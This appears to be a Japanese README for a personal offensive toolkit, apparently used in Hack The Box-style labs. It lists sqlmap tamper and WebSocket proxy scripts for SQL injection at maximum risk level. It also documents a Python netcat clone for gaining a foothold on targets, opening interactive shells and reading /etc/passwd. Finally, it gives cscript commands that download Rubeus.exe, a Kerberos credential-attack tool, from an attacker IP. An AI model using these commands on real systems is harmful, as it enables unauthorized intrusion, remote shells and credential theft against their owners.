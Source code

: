 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を縦てそこからSQLi対象へ送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

CMD例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe
```
